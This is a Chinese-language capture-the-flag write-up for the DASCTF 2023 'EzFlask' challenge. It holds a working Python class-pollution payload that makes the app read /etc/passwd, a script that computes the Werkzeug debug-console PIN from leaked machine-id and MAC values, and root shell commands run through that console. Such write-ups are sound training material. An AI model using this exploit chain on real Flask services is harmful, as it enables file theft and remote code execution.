

# DASCTF 2023 & 0X401 七月暑期挑战赛 EzFlask

首先访问服务，获得源码

```python
import uuid

from flask import Flask, request, session
from secret import black_list
import json

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())

def check(data):
    for i in black_list:
        if i in data:
            return False
    return True

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class user():
    def __init__(self):
        self.username = ""
        self.password = ""
        pass
    def check(self, data):
        if self.username == data['username'] and self.password == data['password']:
            return True
        return False

Users = []

@app.route('/register',methods=['POST'])
def register():
    if request.data:
        try:
            if not check(request.data):
                return "Register Failed"
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Register Failed"
            User = user()
            merge(data, User)
            Users.append(User)
        except Exception:
            return "Register Failed"
        return "Register Success"
    else:
        return "Register Failed"

@app.route('/login',methods=['POST'])
def login():
    if request.data:
        try:
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Login Failed"
            for user in Users:
                if user.check(data):
                    session["username"] = data["username"]
                    return "Login Success"
        except Exception:
            return "Login Failed"
    return "Login Failed"

@app.route('/',methods=['GET'])
def index():
    return open(__file__, "r").read()

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

利用 Python 原型链污染，可以实现任意文件读取

```plaintext
POST /register HTTP/1.1
Host: env.xj.edisec.net:32285
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 199

{
    "username": "test",
    "password": "test",
    "check": {
        "__func__": {
            "__globals__": {
                "__file__": "/etc/passwd"
            }
        }
    }
}

HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.10.1
Date: Wed, 01 May 2024 02:31:16 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 16
Connection: close

Register Success
```

然后访问

```plaintext
GET / HTTP/1.1
Host: env.xj.edisec.net:32285
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.10.1
Date: Wed, 01 May 2024 02:31:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 922
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

于是可以读取到以下文件

```plaintext title="/etc/machine-id"
96cec10d3d9307792745ec3b85c89620
```

```plaintext title="/sys/class/net/eth0/address"
4a:a8:ff:c2:9f:7f
```

编写脚本计算 Debug Console PIN Code

```python
import hashlib
from itertools import chain

probably_public_bits = [
    "root",  # username
    "flask.app",  # modname
    "Flask",  # appname
    "/usr/local/lib/python3.10/site-packages/flask/app.py",  # moddir
]

private_bits = [
    str(int("4a:a8:ff:c2:9f:7f".replace(":", ""), 16)),  # uuidnode
    "96cec10d3d9307792745ec3b85c89620",  # machine_id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(num[x : x + group_size].rjust(group_size, "0") for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
# 171-928-035
```



于是就可以直接 getshell

```python
[console ready]
>>> import os
>>> print(os.popen("whoami").read().strip())
root
>>> print(os.popen("ls -lah /").read().strip())
total 28K
drwxr-xr-x.   1 root root  71 May  1 02:26 .
drwxr-xr-x.   1 root root  71 May  1 02:26 ..
-rwxr-xr-x.   1 root root   0 May  1 02:26 .dockerenv
drwxr-xr-x.   1 root root  56 May  1 02:26 app
drwxr-xr-x.   1 root root   6 Dec 21  2021 bin
drwxr-xr-x.   2 root root   6 Dec 11  2021 boot
drwxr-xr-x.   5 root root 360 May  1 02:26 dev
-rw-r--r--.   1 root root 779 Jul 25  2023 docker-entrypoint.sh
drwxr-xr-x.   1 root root  66 May  1 02:26 etc
-rw-r--r--.   1 root root  25 May  1 02:26 find_ez_flag
-rwxr--r--.   1 root root  24 May  1 02:26 flag
drwxr-xr-x.   2 root root   6 Dec 11  2021 home
drwxr-xr-x.   1 root root  30 Dec 21  2021 lib
drwxr-xr-x.   2 root root  34 Dec 20  2021 lib64
drwxr-xr-x.   2 root root   6 Dec 20  2021 media
drwxr-xr-x.   2 root root   6 Dec 20  2021 mnt
drwxr-xr-x.   2 root root   6 Dec 20  2021 opt
dr-xr-xr-x. 214 root root   0 May  1 02:26 proc
drwx------.   1 root root  20 Jul 25  2023 root
drwxr-xr-x.   1 root root  21 May  1 02:26 run
drwxr-xr-x.   2 root root 16K Dec 20  2021 sbin
drwxr-xr-x.   2 root root   6 Dec 20  2021 srv
dr-xr-xr-x.  13 root root   0 Dec 28 10:23 sys
drwxrwxrwt.   1 root root   6 Jul 25  2023 tmp
drwxr-xr-x.   1 root root  19 Dec 20  2021 usr
drwxr-xr-x.   1 root root  17 Dec 20  2021 var
>>> print(os.popen("cat /find_ez_flag").read().strip())
FLAG{XJ_Nz1vVoeRXAFuPhcA}
```

```plaintext
FLAG{XJ_Nz1vVoeRXAFuPhcA}
```

## Reference

[DASCTF & 0X401 – My Blog](https://jbnrz.com.cn/index.php/2023/07/28/dasctf-0x401/)

[DASCTF 2023 & 0X401 七月暑期挑战赛 - web 复现 - Eddie_Murphy - 博客园](https://www.cnblogs.com/EddieMurphy-blogs/p/17859822.html)

[DASCTF 2023 & 0X401 Web WriteUp - Boogiepop Doesn't Laugh](https://boogipop.com/2023/07/22/DASCTF%202023%20&%200X401%20Web%20WriteUp/)
